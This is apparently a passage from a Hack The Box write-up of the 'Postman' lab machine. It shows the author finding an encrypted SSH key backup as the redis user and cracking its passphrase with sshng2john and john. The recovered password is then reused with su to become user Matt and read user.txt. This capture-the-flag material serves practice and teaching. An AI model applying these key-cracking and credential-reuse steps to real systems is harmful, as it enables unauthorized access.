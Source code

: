       Last login: Fri Nov  8 10:19:49 2019 from 10.10.14.10
    redis@Postman:~$

4. Enumerating the box as user 'redis' shows us that user.txt is in the /home/Matt/, unfortunatley we don't have permissions.
   Snooping around further I found .bash_history in /var/lib/redis - within I can see commands to "id_rsa.bak".
   Search to for file using find:
     redis@Postman:~$ find / -name "id_rsa*"
      /opt/id_rsa.bak

    Looking at the file we can see that it is a .pem-file with des3 encryption and salt 73E9CEFBCCF5287C. To crack it we need to
    convert it, do it using sshng2john.
      root@p3:/usr/share/john# ./sshng2john.py /opt/htb/machines/postman/id_rsa.bak > /opt/htb/machines/postman/crack.txt
      root@p3:/opt/htb/machines/postman# john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt
        Using default input encoding: UTF-8
        Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
        Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
        Cost 2 (iteration count) is 2 for all loaded hashes
        Will run 12 OpenMP threads
        Note: This format may emit false positives, so it will keep trying even after
        finding a possible candidate.
        Press 'q' or Ctrl-C to abort, almost any other key for status
        computer2008     (/opt/htb/machines/postman/id_rsa.bak)
        1g 0:00:00:03 DONE (2019-11-08 13:14) 0.2666g/s 3824Kp/s 3824Kc/s 3824KC/s  0125457423 ..*7¡Vamos!
        Session completed

5. We now have the creds for what I assume is user Matt, trying to SSH with the private key and found password (computer2008)
   is not working however.

   root@p3:/opt/htb/machines/postman# ssh matt@postman.htb -i id_rsa.bak
    Enter passphrase for key 'id_rsa.bak': computer2008
    Connection closed by 10.10.10.160 port 22

   Looking at the sshd_config I noticed that user Matt is blocked for SSH.
   redis@Postman:~$ cat /etc/ssh/sshd_config
    #	$OpenBSD: sshd_config,v 1.101 2017/03/14 07:19:07 djm Exp $
    ..
    #deny users
    DenyUsers Matt
    ..

   Escalating from user redis to Matt internally however works just fine - grab user.txt
    redis@Postman:~$ su Matt
    Password:
    Matt@Postman:/var/lib/redis$ cat /home/Matt/user.txt
    517a****************************

